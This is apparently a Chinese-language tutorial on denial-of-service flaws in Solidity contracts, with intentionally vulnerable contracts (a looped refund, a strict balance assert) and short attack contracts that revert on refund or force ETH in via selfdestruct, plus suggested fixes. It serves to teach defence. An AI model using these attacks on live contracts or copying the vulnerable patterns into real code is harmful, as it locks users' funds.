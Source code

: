 # DoS

拒绝服务（Denial of Service, DoS）漏洞，是恶意合约或者本身合约逻辑漏洞导致的合约全部或部分功能无法正常使用。DoS产生的原因有非常多，这里只举几个经典的例子：

#### 1.恶意revert导致DoS

来自于一个简化了的 Akutar 合约，名字叫 `DoSGame`。这个合约逻辑很简单，游戏开始时，玩家们调用 `deposit()` 函数往合约里存款，合约会记录下所有玩家地址和相应的存款；当游戏结束时，`refund()`函数被调用，将 ETH 依次退款给所有玩家

```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.21;

// 有DoS漏洞的游戏，玩家们先存钱，游戏结束后，调用refund退钱。
contract DoSGame {
    bool public refundFinished;
    mapping(address => uint256) public balanceOf;
    address[] public players;

    // 所有玩家存ETH到合约里
    function deposit() external payable {
        require(!refundFinished, "Game Over");
        require(msg.value > 0, "Please donate ETH");
        // 记录存款
        balanceOf[msg.sender] = msg.value;
        // 记录玩家地址
        players.push(msg.sender);
    }

//以下的for循环出现了巨大的漏洞
    // 游戏结束，退款开始，所有玩家将依次收到退款
    function refund() external {
        require(!refundFinished, "Game Over");
        uint256 pLength = players.length;
        // 通过循环给所有玩家退款
        for(uint256 i; i < pLength; i++){
            address player = players[i];
            uint256 refundETH = balanceOf[player];
 //！！！！！！逻辑问题出现，如果call返回个false,这个函数全废掉！！！！！！！！！！！！！！！！
            (bool success, ) = player.call{value: refundETH}("");
            require(success, "Refund Fail!");
            balanceOf[player] = 0;
        }
        refundFinished = true;
    }

    function balance() external view returns(uint256){
        return address(this).balance;
    }
}
```

这里的漏洞在于，`refund()` 函数中利用循环退款的时候，是使用的 `call` 函数，将激活目标地址的回调函数，如果目标地址为一个恶意合约，在回调函数中加入了恶意逻辑，退款将不能正常进行。

例如下面的合约，我拿合约存的钱，refund后call会调起fallback/receive，加个revert，call返回false，require回滚结果，refund函数全废掉，没有一个人的钱能拿回来：

```Solidity
contract Attack {
    // 退款时进行DoS攻击
    fallback() external payable{
        revert("DoS Attack!");
    }

    // 参与DoS游戏并存款
    function attack(address gameAddr) external payable {
        DoSGame dos = DoSGame(gameAddr);
        dos.deposit{value: msg.value}();
    }
}
//解决方法也简单，去掉require，或者for循环去掉，改为用户主动取现就没这种事了
```

除此之外，for循环本身也有个大毛病，就算会随着数组长度而增加gas消耗，导致潜在的问题

```Solidity
function enter() public {
    // Check for duplicate entrants
    for (uint256 i; i < entrants.length; i++) {
        if (entrants[i] == msg.sender) {
            revert("You've already entered!");
        }
    }
    entrants.push(msg.sender);
}
//谁都能进很快这个就会很长，应该改成mapping来解决这个问题.
```

#### 2.恶意发钱导致DoS（Donation Attack）

当出现assert/require核对总余额时需要注意，这种判断有潜在bug

```Solidity
///github.com/Cyfrin/sc-exploits-minimized/blob/main/src/mishanding-of-eth/SelfDestructMe.sol提供的案例

// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

contract SelfDestructMe {
    uint256 public totalDeposits;
    mapping(address => uint256) public deposits;

    function deposit() external payable {
        deposits[msg.sender] += msg.value;
        totalDeposits += msg.value;
    }

    function withdraw() external {
        assert(address(this).balance == totalDeposits); // bad,应该至少改成大于等于
        uint256 amount = deposits[msg.sender];
        totalDeposits -= amount;
        deposits[msg.sender] = 0;

        payable(msg.sender).transfer(amount);
    }
}

contract AttackSelfDestructMe {
    SelfDestructMe target;

    constructor(SelfDestructMe _target) payable {
        target = _target;
    }

    function attack() external payable {
        selfdestruct(payable(address(target)));
    }
}
///合约自毁或者将目标合约地址设为beacon chain验证节点的收钱地址都会导致强制收钱
```

看上去上面的ETH只能通过`deposit`来转入合约，而等于号会一直保持，但是EVM机制中，`selfDestruct`合约销毁函数和beacon chain将合约地址设置为质押奖励接收地址（ 参考[ETH2Book](https://eth2book.info/capella/part2/deposits-withdrawals/withdrawal-processing/#performing-withdrawals)）都会导致不等号不成立，这两个机制都会强制对合约进行转账，导致DoS。